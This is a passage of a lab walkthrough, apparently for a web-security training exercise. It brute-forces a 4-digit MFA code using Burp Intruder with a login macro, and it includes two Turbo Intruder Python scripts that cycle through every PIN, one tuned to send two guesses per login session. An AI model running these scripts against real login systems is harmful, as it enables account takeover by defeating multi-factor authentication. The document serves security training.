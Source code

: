 5. **OK** yourself back to main screen

6. from proxy send **POST /login2 HTTP/1.1** to intruder and initiate bruce force on the 4 digit nums mfa value. remember to check the **Redirection Always** box in the **intruder options** tab, to have intruder records the actual logged-in **my account** page 

**macro explained:**
```
every time intruder sends the request to **POST /login2 HTTP/1.1** the session handler recognized the link as in the scope of the **Rule** and initiate the **macro** assigned to the rule - in our case a 3 steps login process that preseed our mfa guessing paylod.

```
7. wait for 302 found - this is the loagin. go to my account.

# Done (no.1)

# Turbo Intruder:
***solve the lab with Turbo intruder script***

first we build the attack with session handling - it works fine but very slow:
less than the (minimum counter) 1 rps - approx ~0.6 rps.  


```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1, # more than 1 will interrup the login process yielding 'invalid csrf token' 400 errors
                           requestsPerConnection=1000,
                           engine=Engine.BURP, # use burp engin to enable macros (remember to also check extender box in session handaling scope)
                           pipeline=False
                           )

    for pin in range(0,9999): # pin
        guess = str(pin).zfill(4)
        engine.queue(target.req, guess)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
there are actually 2 tries for each login session - lets make an effort to reduce time by sending 2 guess per login process:

```python
import time

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=10,
                           engine=Engine.BURP, 
                           pipeline=False
                           )
    pin=1987 # for on-the-fly a/b speed testing 
    for i in range(5000):
        guess = str(pin).zfill(4)
        engine.queue(target.req, guess)
        pin += 1
        guess = str(pin).zfill(4)
        engine.queue(target.req, guess)
```